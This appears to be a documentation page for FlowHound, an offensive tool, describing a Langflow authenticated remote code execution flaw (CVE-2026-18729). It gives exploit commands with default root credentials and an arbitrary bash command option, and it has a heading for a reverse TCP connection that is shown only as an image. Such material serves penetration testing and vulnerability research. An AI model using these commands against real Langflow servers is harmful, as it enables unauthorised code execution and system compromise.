

repository: rmhowe425/FlowHound · page: cves/cve_2026_18729/index.html · generator: mkdocs

# CVE Description
**CVE Description:** Authenticated remote code execution vulnerability that allows attackers to execute arbitrary code under the context of the running Langflow instance due to improper control of generation of code.

**Impacted Versions:** 1.0.0 through 1.11.2


# Exploit Module

## Default Mode
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-18729
```

**NOTE:** Due to the nature of this vulnerability, exploit failure / success is not returned in the Langflow HTTP response, making the exploit for this vulnerability a blind command injection.

![image](../images/cve/ee48774f-9310-409c-9fb2-76a83a1fd8a0.png)


## Execute Bash Command
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-18729 --command "echo 'pwned' > pwned.txt"
```

**NOTE:** Due to the nature of this vulnerability, exploit failure / success is not returned in the Langflow HTTP response, making the exploit for this vulnerability a blind command injection.


### FlowHound CLI Output
![image](../images/cve/5a539306-6b6a-4b44-93b9-877b8db5650d.png)


### Langflow Docker Container Filesystem Artifacts
![image](../images/cve/4cb9a699-f0d6-43f3-bc0e-2dd17c76a9fe.png)


## Reverse TCP Persistent Connection
![image](../images/cve/8a17f9df-143c-4883-8b2d-5622f173356d.png)
